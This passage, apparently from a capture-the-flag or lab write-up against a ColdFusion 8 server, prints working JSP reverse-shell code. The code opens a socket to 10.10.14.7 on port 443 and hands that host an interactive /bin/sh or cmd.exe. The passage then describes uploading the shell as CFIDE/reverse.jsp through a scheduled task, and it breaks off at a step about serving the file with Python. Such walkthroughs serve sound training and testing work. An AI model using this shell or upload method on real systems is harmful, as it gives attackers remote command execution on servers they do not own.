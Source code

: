 ``` bash
      public void run()
      {
        BufferedReader w6  = null;
        BufferedWriter eRg = null;
        try
        {
          w6  = new BufferedReader( new InputStreamReader( this.cb ) );
          eRg = new BufferedWriter( new OutputStreamWriter( this.b0 ) );
          char buffer[] = new char[8192];
          int length;
          while( ( length = w6.read( buffer, 0, buffer.length ) ) > 0 )
          {
            eRg.write( buffer, 0, length );
            eRg.flush();
          }
        } catch( Exception e ){}
        try
        {
          if( w6 != null )
            w6.close();
          if( eRg != null )
            eRg.close();
        } catch( Exception e ){}
      }
    }
  
    try
    {
      String ShellPath;
  if (System.getProperty("os.name").toLowerCase().indexOf("windows") == -1) {
    ShellPath = new String("/bin/sh");
  } else {
    ShellPath = new String("cmd.exe");
  }
  
      Socket socket = new Socket( "10.10.14.7", 443 );
      Process process = Runtime.getRuntime().exec( ShellPath );
      ( new StreamConnector( process.getInputStream(), socket.getOutputStream() ) ).start();
     ( new StreamConnector( socket.getInputStream(), process.getOutputStream() ) ).start();
} catch( Exception e ) {}
%>
```

We configure a scheduled task to upload it to:

```
C:\ColdFusion8\wwwroot\CFIDE\reverse.jsp
```

![[web_creating_a_task.png]]

Serve the file with Python:
